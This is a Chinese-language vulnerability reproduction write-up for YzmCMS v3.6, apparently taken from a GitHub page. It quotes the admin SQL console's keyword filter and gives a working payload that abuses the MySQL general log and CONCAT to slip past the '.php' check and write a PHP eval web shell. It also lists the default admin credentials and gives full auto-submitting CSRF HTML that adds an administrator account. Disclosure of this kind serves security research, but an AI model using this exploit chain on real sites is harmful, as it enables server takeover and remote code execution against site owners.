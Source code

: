 ```yaml
---
title: YzmCMS v3.6 csrf
id: zhfly3302
---
```


# YzmCMS v3.6 csrf

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

1、文件位置: /application/admin/controller/sql.class.php第10-42行中：

```
public function init() {  
    if(isset($_POST['sqlstr'])){  
        if(!C('sql_execute')) showmsg('根据系统配置，不允许在线执行SQL命令！', 'stop');  
        $sqlstr = MAGIC_QUOTES_GPC ? stripslashes($_POST['sqlstr']) : $_POST['sqlstr'];  
        $sqlstr = rtrim(trim($sqlstr), ';');  
        $sqls = $_POST['action']=='many' ? explode(';', $sqlstr) : array(0 => $sqlstr);  

        $admin = D('admin');  
        foreach($sqls as $sql){  
10\.             if(stristr($sql, 'outfile')){  
11\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “outfile”！</span>';  
12\.                 break;  
13\.             }  
14\.             if(stristr($sql, '.php')){  
15\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “.php” ！</span>';  
16\.                 break;  
17\.             }  
18\.             if(preg_match("/^drop(.*)database/i", $sql)){  
19\.                 $str = '<span class="c-red">ERROR : 不允许删除数据库！</span>';  
20\.                 break;  
21\.             }  
22\.             $result = $admin->query($sql);   
23\.             if($result){  
24\.                 $str = '<span style="color:green">OK : 执行成功！</span>';  
25\.                 if(is_object($result) || is_resource($result)){  
26\.                     $arr = $admin->fetch_all($result);  
27\.                 }                     
28\.             }else{  
29\.                 $str = '<span class="c-red">ERROR : 执行失败！</span>';  
30\.                 break;  
31\.             }                 
32\.         }  
33\.     } 
```

这段函数中对提交的sql参数进行还原处理，然后进行非法字符检测，检测字符是否存在”oufile”、”.php”,匹配是否有删除数据的操作等。

2、如何绕过这种限制？

首页，outfile被禁止，第一时间想到的就是SQL语句利用日志写入文件，但是写入脚本文件”.php”会被检测到非法字符；然后，尝试MySQL中concat函数来连接字符串，拆分’.php’关键词，如 CONCAT("test.","php");最后构造出可以写入文件，绕过非法字符检测的的SQL语句，从而触发代码执行漏洞，控制服务器。

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell 
```

### 漏洞复现

#### 如何获取后台管理员权限

有两种思路：

思路A：通过默认信息，弱口令登录

默认后台路径：http://www.0-sec.org/admin/index/login.html

管理员默认账号密码均为：yzmcms

思路B：通过CSRF漏洞，诱导管理员访问，自动在后台添加管理员账号。

CSRF漏洞利用代码如下：

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">  

<html>  
<head>  
<title>OWASP CRSFTester Demonstration</title>  
</head>  
<body οnlοad="javascript:fireForms()">  
<script language="JavaScript">  
var pauses = new Array( "68" );  

 function pausecomp(millis)  

{  

    var date = new Date();  

    var curDate = null;  

    do { curDate = new Date(); }  

    while(curDate-date < millis);  

}  

function fireForms()  

{  

    var count = 1;  

    var i=0;  

    for(i=0; i<count; i++)  

    {  

        document.forms[i].submit();  

        pausecomp(pauses[i]);  

    }  

}  

</script>  

<H2>OWASP CRSFTester Demonstration</H2>  

<form method=“POST” name=“form0” action=“[http://127.0.0.1:80/admin/admin_manage/add.html](http://127.0.0.1:80/admin/admin_manage/add.html)”>  

<input type=“hidden” name=“adminname” value=“admin”/>  

<input type=“hidden” name=“password” value=“abc123!”/>  

<input type=“hidden” name=“password2” value=“abc123!”/>  

<input type=“hidden” name=“email” value=""/>  

<input type=“hidden” name=“realname” value=""/>  

<input type=“hidden” name=“roleid” value=“1”/>  

<input type=“hidden” name=“dosubmit” value=“1”/>  

</form>  

</body> `</html>` 
```